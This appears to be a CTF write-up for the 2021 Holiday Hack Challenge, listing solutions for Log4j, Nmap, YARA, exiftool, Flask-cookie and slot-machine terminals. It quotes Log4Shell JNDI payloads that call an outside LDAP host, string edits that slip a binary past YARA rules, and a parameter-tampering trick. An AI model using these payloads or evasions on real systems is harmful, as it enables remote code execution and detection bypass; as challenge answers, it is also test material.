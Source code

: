 
# Orientation

Follow directions

# Logic Munchers

Just have to play the game

# Bonus! Blue Log4Jack

Follow directions

# Bonus! Red Log4Jack

[14/Dec/2021:11:21:14 +0000] "GET /solr/admin/cores?foo=${jndi:ldap://10.26.4.27:1389/Evil} HTTP/1.1" 200 1311 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:64.0) Gecko/20100101 Firefox/64.0"
/var/log/www/access.log:10.99.3.1 - - [08/Dec/2021:19:41:22 +0000] "GET /site.webmanifest HTTP/1.1" 304 0 "-" "${jndi:dns://10.99.3.43/NothingToSeeHere}"
/var/log/www/access.log:10.3.243.6 - - [08/Dec/2021:19:43:35 +0000] "GET / HTTP/1.1" 304 0 "-" "${jndi:ldap://10.3.243.6/DefinitelyLegitimate}"

# NMAP challenge:

## Answer all the questions in the quizme executable:

### What port does 34.76.1.22 have open? 

`62078`

### What port does 34.77.207.226 have open? 

`8080`

### How many hosts appear "Up" in the scan? 

`26054`

### How many hosts have a web port open?  (Let's just use TCP ports 80, 443, and 8080) 

`14372`

```
grep -E "(80|8080|443)/open" bigscan.gnmap | sort |  uniq | wc -l
```

### How many hosts with status Up have no (detected) open TCP ports? 

`402`

```
echo $((`grep Up | wc -l` - `grep 'open/tcp' | wc -l`))
```

### What's the greatest number of TCP ports any one host has open? 

`12`

```
grep -E "(open.*){12,}" | wc -l
```

# YARA Bypass

## rule yara_rule_135 

```   
{
   meta:
      description = "binaries - file Sugar_in_the_machinery"
      author = "Sparkle Redberry"
      reference = "North Pole Malware Research Lab"
      date = "1955-04-21"
      hash = "19ecaadb2159b566c39c999b0f860b4d8fc2824eb648e275f57a6dbceaf9b488"
   strings:
      $s = "candycane"
   condition:
      $s
}
```

- Change **candycane** to `c@ndycane`

## rule yara_rule_1056 

```   
{
   meta:
      description = "binaries - file frosty.exe"
      author = "Sparkle Redberry"
      reference = "North Pole Malware Research Lab"
      date = "1955-04-21"
      hash = "b9b95f671e3d54318b3fd4db1ba3b813325fcef462070da163193d7acb5fcd03"
   strings:
      $s1 = {6c 6962 632e 736f 2e36}
      $hs2 = {726f 6772 616d 2121}   #Hex for rogram!!
   condition:
      all of them
}    
```

- Change **rogram!!** to `rogram?!`

## rule yara_rule_1732 

```
{
   meta:
      description = "binaries - alwayz_winter.exe"
      author = "Santa"
      reference = "North Pole Malware Research Lab"
      date = "1955-04-22"
      hash = "c1e31a539898aab18f483d9e7b3c698ea45799e78bddc919a7dbebb1b40193a8"
   strings:
      $s1 = "This is critical for the execution of this program!!" fullword ascii #
      $s2 = "__frame_dummy_init_array_entry" fullword ascii                       #
      $s3 = ".note.gnu.property" fullword ascii
      $s4 = ".eh_frame_hdr" fullword ascii					  #
      $s5 = "__FRAME_END__" fullword ascii					  #
      $s6 = "__GNU_EH_FRAME_HDR" fullword ascii					  #
      $s7 = "frame_dummy" fullword ascii
      $s8 = ".note.gnu.build-id" fullword ascii
      $s9 = "completed.8060" fullword ascii
      $s10 = "_IO_stdin_used" fullword ascii
      $s11 = ".note.ABI-tag" fullword ascii
      $s12 = "naughty string" fullword ascii					#
      $s13 = "dastardly string" fullword ascii					#
      $s14 = "__do_global_dtors_aux_fini_array_entry" fullword ascii		#
      $s15 = "__libc_start_main@@GLIBC_2.2.5" fullword ascii  			#
      $s16 = "GLIBC_2.2.5" fullword ascii
      $s17 = "its_a_holly_jolly_variable" fullword ascii  			#
      $s18 = "__cxa_finalize" fullword ascii					#
      $s19 = "HolidayHackChallenge{NotReallyAFlag}" fullword ascii		#
      $s20 = "__libc_csu_init" fullword ascii
   condition:
      uint32(1) == 0x02464c45 and filesize < 50KB and
      10 of them
}
```

- Change **HolidayHackChallenge{NotReallyAFlag}** to `HolidayHackChalleng3{NotReallyAFlag}`
- Change **dastardly string** to `datardly_string`
- Change **naughty string** to `naughty_string`
- Change **__frame_dummy_init_array_entry** to `__fram3_dummy_init_array_entry`
- Change **__do_global_dtors_aux_fini_array_entry** to `__d0_global_dtors_aux_fini_array_entry`
- Change **its_a_holly_jolly_variable** to `its_a_ho1ly_jolly_variable`
- Change **.eh_frame_hdr** to `.eh_frame_hDr`
- Change **__FRAME_END__** to `__FRAME_3ND__`
- Change **__GNU_EH_FRAME_HDR** to `__GNU_EH_FRAM3_HDR`
- Change **__cxa_finalize** to `__cx@_finalize`
- Change **__libc_start_main@@GLIBC_2.2.5** to `__libc_start_ma1n@@GLIBC_2.2.5`

# EXIFtool challenge

```
exiftool 2021-12-*.docx | less /Jack
```

`Caramel Santaigo`

Decoded Flask cookies Cyberchef from Base64 url safe zlib inflate

```
{"elf":"Tinsel Upatree","elfHints":["They kept checking their Snapchat app.","The elf mentioned something about Stack Overflow and Python.","Oh, I noticed they had a Star Trek themed phone case.","The elf got really heated about using tabs for indents.","hard"],"location":"Santa's Castle","options":[["Antwerp, Belgium","Prague, Czech Republic","New York, USA"],["Edinburgh, Scotland","Stuttgart, Germany","Reykjav\u00edk, Iceland"],["Montr\u00e9al, Canada","Antwerp, Belgium","Prague, Czech Republic"],["Rovaniemi, Finland","Placeholder","Tokyo, Japan"]],"randomSeed":721,"route":["New York, USA","Edinburgh, Scotland","Antwerp, Belgium","Placeholder"],"victoryToken":"{ hash:\"3852c096dcc7d6403ed61a0b247e979d28bca9714c25faa4956f2196ae7afb11\", resourceId: \"65485b84-6a1d-4dac-afcb-a43bbe34d01e\"}"}
{"elf":"Ribb Bonbowford","elfHints":["Oh, I noticed they had a Star Wars themed phone case.","The elf mentioned something about Stack Overflow and C#.","The elf got really heated about using tabs for indents.","They kept checking their Slack app.","hard"],"location":"Santa's Castle","options":[["Copenhagen, Denmark","Antwerp, Belgium","New York, USA"],["Edinburgh, Scotland","Reykjav\u00edk, Iceland","Stuttgart, Germany"],["Edinburgh, Scotland","Rovaniemi, Finland","New York, USA"],["New York, USA","Edinburgh, Scotland","Placeholder"]],"randomSeed":884,"route":["Antwerp, Belgium","Stuttgart, Germany","Edinburgh, Scotland","Placeholder"],"victoryToken":"{ hash:\"b2f333cb6d56c7329fb71f29ed29dd2c37861251290a29fc5649c44e37a23b13\", resourceId: \"f01c68fb-30e7-471c-aad3-380395e2cac6\"}"}
```

# Parameter tampering slot machine

Change **cpl** to negative value to increase winnings